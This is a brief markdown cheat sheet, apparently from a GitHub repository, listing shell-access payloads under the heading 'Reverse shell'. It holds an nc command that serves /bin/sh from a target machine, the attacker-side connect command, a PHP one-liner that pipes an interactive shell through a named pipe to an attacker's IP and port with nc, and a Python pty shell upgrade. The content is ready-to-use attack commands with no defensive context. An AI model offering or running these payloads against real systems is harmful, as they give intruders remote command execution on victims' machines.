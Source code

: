 # 🔃 Reverse shell

## nc

Inside the target machine

```bash
nc -lnvvp <port> -e /bin/sh
```

To connect from the attacker machine:

```bash
nc <host> <port>
```

## PHP

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f"); ?>
```

## Python

```py
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

